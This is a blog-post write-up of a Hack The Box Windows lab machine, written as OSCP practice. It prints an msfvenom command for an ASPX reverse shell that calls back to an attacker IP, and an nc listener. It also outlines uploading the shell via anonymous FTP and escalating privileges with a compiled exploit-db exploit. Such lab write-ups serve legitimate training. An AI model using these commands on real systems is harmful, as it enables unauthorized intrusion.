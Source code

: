 ```yaml
---
layout: post
title:  "HTB - DAVEL - Without Metasploit"
date:   2020-02-11 08:07:19
categories: [HTB,Writeup,oscp-prep]
comments: true
image:
  feature: ![infocard](infocard.png)
---
```


Davel is one of the easy windows OSCP like machine. The full list of OSCP like machine can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)

Let's get started!

<!--more-->

### Recon
 
Started with [nmapAutomater](https://github.com/21y4d/nmapAutomator) for recon and found FTP port open with anonymous access.

![nmap-result](nmap-allowed-anonymous.png)

The machine also has port 80 open which looks like default IIS page.

![http-site](../img/screenshot/http-site.png)

Whatever uploaded in the FTP can be accessed from HTTP.

### Exploitation

Creating aspx reverse shell using msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.80 LPORT=4242 -f aspx > shell.aspx`

Uploading the aspx file to the ftp

![uploading shell](uploading-shell-anonymous-ftp.png)

Accessing the shell from the HTTP to get the reverse tcp connection. Spawn the listener in attacker machine

`nc -nlvp 4242`

Got shell. But the user was IIS user and dosent have user or admin privilege.

### Privilege escalation

![windows shell system info](windows_shell_systeminfo.png)

From the system info we can understand the following:
1. Os Name : Windows 7 enterprise 
2. Os version : 6.1.7600
3. Hotfix : Not applied


Googled the OS name and its version for corresponding CVE and found a exploit on exploitdb.

![priv-exec](priv-esc-exploitdb.png)

Use `searchsploit` to copy the exploit locally.

![searchsploit](searchsploit.png)

Method to build the exe is given in the comment section of the exploit

![how to build](how-to-build.png)

Compiling the exe file and creating python shell to transfer the exe file.

![compiling](compiling%20and%20executing%20binary.png)

Using powershell, Downloading the exe file to the victim machine.

![powershell to donwload the file](Download-files-in-windows.png)

Executing the exe file

![priv exec](executing-shell-gaining-system-priv.png)

##### Owning User

![owning user](owning-user.png)

##### Owning Administrator
![owning root](owning-root.png)


### Cleanup

1. Deleting aspx shell from FTP

![ftp-cleanup](cleanup-ftp.png)

2. Deleted privexec exe from the machine




